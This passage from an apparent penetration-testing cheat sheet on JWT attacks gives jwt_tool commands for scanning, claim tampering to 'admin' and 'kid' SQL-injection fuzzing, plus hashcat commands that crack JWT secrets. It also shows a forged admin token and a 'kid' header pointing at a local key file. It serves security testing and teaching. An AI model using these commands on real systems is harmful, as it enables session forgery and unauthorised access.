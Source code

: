 ```powershell
Your new forged token:
[+] URL safe: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNTE2MjM5MDIyfQ.xbUXlOQClkhXEreWmB3da_xtBsT0Kjw7truyhDwF5Ic
[+] Standard: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNTE2MjM5MDIyfQ.xbUXlOQClkhXEreWmB3da/xtBsT0Kjw7truyhDwF5Ic
```

* Recon: `python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.aqNCvShlNT9jBFTPBpHDbt2gBB1MyHiisSDdp8SQvgw`
* Scanning: `python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -M pb`
* Exploitation: `python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -X i -I -pc name -pv admin`
* Fuzzing: `python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -I -hc kid -hv custom_sqli_vectors.txt`
* Review: `python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -X i -I -pc name -pv admin`


#### Hashcat

> Support added to crack JWT (JSON Web Token) with hashcat at 365MH/s on a single GTX1080 - [src](https://twitter.com/hashcat/status/955154646494040065)

* Dictionary attack: `hashcat -a 0 -m 16500 jwt.txt wordlist.txt`
* Rule-based attack: `hashcat -a 0 -m 16500 jwt.txt passlist.txt -r rules/best64.rule`
* Brute force attack: `hashcat -a 3 -m 16500 jwt.txt ?u?l?l?l?l?l?l?l -i --increment-min=6`


## JWT Claims

[IANA's JSON Web Token Claims](https://www.iana.org/assignments/jwt/jwt.xhtml)


### JWT kid Claim Misuse

The "kid" (key ID) claim in a JSON Web Token (JWT) is an optional header parameter that is used to indicate the identifier of the cryptographic key that was used to sign or encrypt the JWT. It is important to note that the key identifier itself does not provide any security benefits, but rather it enables the recipient to locate the key that is needed to verify the integrity of the JWT.

* Example #1 : Local file
    ```json
    {
    "alg": "HS256",
    "typ": "JWT",
    "kid": "/root/res/keys/secret.key"
    }
    ```
